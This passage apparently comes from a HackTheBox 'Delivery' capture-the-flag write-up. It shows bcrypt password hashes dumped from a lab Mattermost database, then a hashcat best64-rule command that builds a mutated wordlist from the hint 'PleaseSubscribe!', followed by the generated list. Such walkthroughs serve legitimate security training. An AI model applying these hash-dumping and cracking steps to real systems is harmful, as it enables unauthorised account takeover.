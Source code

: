 ```console
| 9ecfb4be145d47fda0724f697f35ffaf | $2a$10$s.cLPSjAVgawGOJwB7vrqenPg2lrDtOECRtjwWahOzHfq1CoFyFqm | 
| villan010010                     | $2a$10$os7W7aFHP3PL5WjWVm9cMua3z2DMgte0pzjWZFJbfmy3uQJ/s3F6y | 
+----------------------------------+--------------------------------------------------------------+ 
11 rows in set (0.001 sec) 
 
MariaDB [mattermost]> exit 
Bye
 
```

## we got root hash i copy this hash in my system. now we know this hash not able to crack with simple password list bruteforcing then i create a dictornary using hashcat rules and found word on root message on mattermost server.

![matter](https://raw.githubusercontent.com/SUNNYSAINI01001/HackTheBox/main/Delivery/matter.png)

```console
$ cat key  
PleaseSubscribe!

$ hashcat -r /usr/share/hashcat/rules/best64.rule --stdout key > dict.txt

$ cat dict.txt  
PleaseSubscribe! 
!ebircsbuSesaelP 
PLEASESUBSCRIBE! 
pleaseSubscribe! 
PleaseSubscribe!0 
PleaseSubscribe!1 
PleaseSubscribe!2 
PleaseSubscribe!3 
PleaseSubscribe!4 
PleaseSubscribe!5 
PleaseSubscribe!6 
PleaseSubscribe!7 
PleaseSubscribe!8 
PleaseSubscribe!9 
PleaseSubscribe!00 
PleaseSubscribe!01 
PleaseSubscribe!02 
PleaseSubscribe!11 
PleaseSubscribe!12 
PleaseSubscribe!13 
PleaseSubscribe!21 
PleaseSubscribe!22 
PleaseSubscribe!23 
PleaseSubscribe!69 
PleaseSubscribe!77 
PleaseSubscribe!88 
PleaseSubscribe!99 
PleaseSubscribe!123 
PleaseSubscribe!e 
PleaseSubscribe!s 
PleaseSubscribea 
PleaseSubscribs 
PleaseSubscriba 
PleaseSubscriber 
PleaseSubscribie 
```